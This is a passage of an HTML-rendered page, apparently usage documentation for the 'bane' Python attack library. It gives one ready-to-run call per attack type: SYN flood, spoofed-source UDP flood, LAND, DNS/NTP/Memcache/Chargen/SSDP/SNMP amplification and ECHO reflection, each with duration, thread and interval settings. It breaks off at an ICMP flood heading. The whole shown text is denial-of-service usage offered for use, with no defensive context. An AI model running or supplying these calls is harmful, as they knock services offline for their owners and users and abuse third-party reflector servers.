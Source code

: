 <div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.synflood(IP , p=port , duration= 300 , syn=1 , rst=0 , psh=0 , ack=0 , urg=0 , fin=0 , interval=0.1 , threads=50 )
</pre></div>
<h4>Spoofed source UDP flood:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.spoofed_udp_flood(IP , p=port , duration= 300 , min_size=10 , max_size=20 , interval=0.1 , threads=50 )
</pre></div>
<h4>LAND attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.land(IP , p=port , duration= 300 , min_size=10 , max_size=20 , interval=0.1 , threads=50 )
</pre></div>
<h4>DNS amplification attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.dns_amplification(IP , p=port , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>NTP amplification attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.ntp_amplification(IP , p=port , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>Memcache amplification attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.memcache_amplification(IP , p=port , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>Chargen amplification attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.chargen_amplification(IP , p=port , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>SSDP amplification attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.ssdp_amplification(IP , p=port , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>SNMP amplification attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.snmp_amplification(IP , p=port , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>ECHO reflection attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.echo_reflection(IP , p=port , min_size=10 , max_size=20 , duration= 300 , servers=[] , interval=0.1 , threads=50 )
</pre></div>
<h4>ICMP FLOOD:</h4>
